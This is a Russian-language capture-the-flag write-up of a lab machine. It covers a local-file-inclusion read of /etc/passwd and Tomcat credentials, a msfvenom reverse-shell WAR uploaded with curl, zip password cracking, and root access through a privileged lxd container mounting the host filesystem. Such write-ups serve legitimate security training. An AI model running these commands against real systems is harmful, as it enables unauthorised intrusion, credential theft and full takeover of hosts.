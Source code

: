 Дисклеймер.  
Все инструменты описанные в данной статье реальны, находятся в свободном доступе и используются специалистами по Информационной Безопасности для проведения тестирования на проникновение информационных систем компаний и предприятий. Автор статьи не занимается взломом и не поощряет подобных действий, все описанное ниже было выполнено на специально подготовленной для этого виртуальной машине.

Снова легкая виртуалка, потому что…. потому что не хочется вляпаться в реверсивную инженерию или какой-нибудь WAF, короче…. сканируем порты….

```bash
 Nmap scan report for 10.10.10.194

 Host is up (0.12s latency).

 Not shown: 997 closed ports

 PORT STATE SERVICE VERSION
 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
 80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
 |_http-title: Mega Hosting
 8080/tcp open http Apache Tomcat
 |_http-title: Apache Tomcat
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

окей, у нас есть [[ssh]] и вебчик, штука под [[tomcat]] значит использует Java как двигатель прогресса. Запускаем [[gobuster]] в фоне, и идем смотреть на сайт сами, нам сразу в глаза тычут доменным именем сайта. окей, идем записываем его в etc/hosts, обновляем страницу, вдруг есть виртуальная маршрутизация, неа, ничего не изменилось. значит будем смотреть один сайт, открываем все ссылки на свете. ссылка на новости ведет на страницу с параметром **file=statement** как удачно, можно попробовать [[Local File Inclusion]], учитывая то, что nmap нам сказал что это Ubuntu 4 будем искать **/etc/passwd** потому что он есть 100%. Рисуем кучу директорий вниз и меняем параметр на это file=**../../../../../../../../../../etc/passwd**

мы победили, файл открылся,что делать дальше…

пойдем читать новости, они говорят что что-то переехало на более безопасный сервер, окей безопаснее [[http]] может быть [[https]] дефолтный порт 8080 пойдем попробуем.

ии, мы попали… страница требует логин, сначала пробуем дефолтный набор, потом сдаемся…. страница выдает 401, что ожидаемо и сама отдает нам путь к конфигу в котором лежат юзеры, а у нас есть [[Local File Inclusion]], го смотреть.  
получаем логин пароль, он подходит, но это тупо api админки,нужно попробовать загрузить шеллкод.

так как все это вертится на Java используем [[metasploit#msfvenom]] чтобы создать полезную нагрузку.

 ```bash
msfvenom -p java_jsp_shell_reverce_tcp LHOST=<наш ip на tun0> LPORT=1234 -f war > shell.war
```

и так, payload имеется осталось его сгрузить [[curl]] нам в этом поможет

```bash
curl -u 'tomcat:password' -T shell.war «url»
```

видим OK

запускаем [[netcat]] на порт 1234 и в браузер

заходим на появившуюся страницу shell.war, не знаю, откуда она там взялась) и получаем shell

курим папочки находим архив с бэкапами ух-ты запароленый, а ну давай [[fcrackzip]]

```bash
 fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup.zip
```

ждемс… опа паролик, так, бекапы теперь не интересны, сходим /home посмотрим пользователя, есть ash

а ну ка…

```bash
 su ash
```

О, теперь я ash а ну **cat user.txt** и на борду сдавать

осталось вкурить в pivesc,пробуем

```bash
 sudo -l
```

я не в sudoers???

окей, а кто еще есть?

```bash
id
```

lxd, системные контейнеры не могут быть не от рута, пойдем нарисуем себе контейнер

гуглим apline-builder получаем github [[alpine]]

> git clone https://github.com/saghul/lxd-alpine-builder

запускаем скачанную дичь, пусть создает образ контейнера

архив есть, поднимаем на нашей тачке веб сервер

с удаленной wget

импорт того что мы создали
[[lxc]]

```bash
 lxc image import ./*название архива* --alias goodpc
```

проверяем импорт

```bash
lxc image list
```

все круто, инициализируем образ

```bash
 lxc init goodpc privesc -c security.privileged=true
```

Что? Ошибка? нет пула памяти? гуглим.
 ```bash 
lxd init
```


далее по принципу установки да-да-да, запускай

повторяем…. вышло…

создадим виртуальный диск в контейнере

```bash
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
```
готово, запускаемся

```bash
 lxc start privesc

 lxc exec privesc /bin/sh
```

и у нас есть root доступ, выглядит кншн не оч… но работает же..

осталось найти root.txt

он в папке с нашим диском, мы вмонтировали его туда

```bash
 cd /mnt/root/root

cat root.txt
```

Сдаем флаг и радуемся жизни